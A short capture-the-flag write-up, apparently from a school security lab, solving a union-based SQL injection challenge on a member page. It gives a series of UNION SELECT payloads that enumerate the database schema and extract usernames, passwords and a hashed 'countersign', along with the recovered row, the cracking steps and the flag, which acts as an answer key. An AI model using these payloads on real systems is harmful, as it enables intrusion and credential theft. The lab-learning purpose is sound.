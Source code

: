 # UNION BASED SQL INJECTION

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery
go to ==> http://{IP_ADDRESS}/index.php?page=member


https://www.sqlinjection.net/table-names/

-1 UNION ALL SELECT table_name,concat(column_name) FROM information_schema.COLUMNS 

Get database names:
>Retrieve database names:
>	-1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--
>Retrieve tables names:
>	-1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='Member_Sql_Injection'--
-1 UNION ALL SELECT table_name,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='table1'

-1 UNION SELECT username, password FROM db_default WHERE username=admin
-1 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users'
-1 UNION SELECT first_name, countersign FROM users
-1 UNION SELECT username, password FROM db_default WHERE user_id=5


| user_id | first_name | last_name | town | country | planet | commentaire | countersign |
|   5     |   flag | GetThe | 42 | 42 | 42 | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |

## Helpers:
- [retrieve data from db](https://www.sqlinjection.net/table-names/)
- [dcode - cipher identifier](https://www.dcode.fr/cipher-identifier)
- [md5decrypt - md5](https://md5decrypt.net/en/)
